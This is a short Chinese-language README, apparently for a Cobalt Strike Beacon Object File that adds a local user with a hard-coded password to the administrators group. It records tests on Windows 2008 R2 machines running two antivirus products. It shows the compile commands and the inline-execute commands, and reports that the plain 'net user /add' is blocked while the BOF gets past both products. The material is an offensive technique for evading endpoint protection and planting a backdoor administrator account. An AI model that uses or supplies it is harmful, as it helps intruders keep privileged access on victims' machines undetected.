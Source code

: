 ### 0x00 基本原理
利用CS4.1中新出的BOF功能提供的API实现添加用户，并将用户添加到管理员组

### 0x01 测试火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
kali下执行如下命令安装需要的库
```
sudo apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode
```
安装完之后，执行如下命令分别生成32位和64位的对象文件
```
x86_64-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x64.o
i686-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x86.o
用户名密码：test123/Test@#123
这里要注意：32位进程载入32位对象，64位进程载入64位对象
```
CS上线后，直接执行
```
shell net user test test /add
```
会被拦截，如下图  
![image](./pic/0.png)
通过内联执行的方式执行对象文件bof-net-user-x86.o
```
inline-execute /home/kali/Desktop/bof-net-user-x86.o
```
等待一会，反馈成功添加用户，如下图  
![image](./pic/1.png)  
回到受害机上查看，成功添加用户，如下图  
![image](./pic/2.png)  

### 0x01 测试360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
同样CS上线后，直接执行
```
shell net user test test /add
```
会被拦截，如下图  
![image](./pic/3.png)  
通过内联执行的方式执行对象文件bof-net-user-x86.o
```
inline-execute /home/kali/Desktop/bof-net-user-x86.o
```
等待一会，反馈成功添加用户，如下图  
![image](./pic/4.png)  
回到受害机上查看，成功添加用户，如下图  
![image](./pic/5.png)  

